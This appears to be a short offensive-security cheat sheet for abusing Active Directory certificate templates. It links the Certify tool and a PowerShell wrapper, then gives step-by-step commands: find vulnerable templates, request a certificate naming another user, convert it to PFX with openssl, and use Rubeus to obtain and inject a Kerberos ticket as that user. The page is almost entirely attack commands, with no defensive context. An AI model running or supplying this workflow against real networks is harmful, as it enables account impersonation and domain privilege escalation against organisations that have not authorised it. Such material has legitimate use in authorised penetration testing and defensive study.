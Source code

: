 ### source
https://github.com/GhostPack/Certify  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1  

### get information about certificate environment and find vulnerable certificates (enrollment rights)
```
Certify.exe find /vulnerable
Invoke-Certify find /vulnerable
```

### request certificate (altUser is the user to impersonate) - use /machine to switch into the current machine context
```
Certify.exe request /ca:"<fqdnCertificateServer>" /template:"<templateName>" /altname:"<altUser>"
```

### convert pem file to pfx file using linux
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <file>.pfx
```

### impersonate user
```
Rubeus.exe asktgt /user:<altUser> /certificate:<file>.pfx /ptt
```

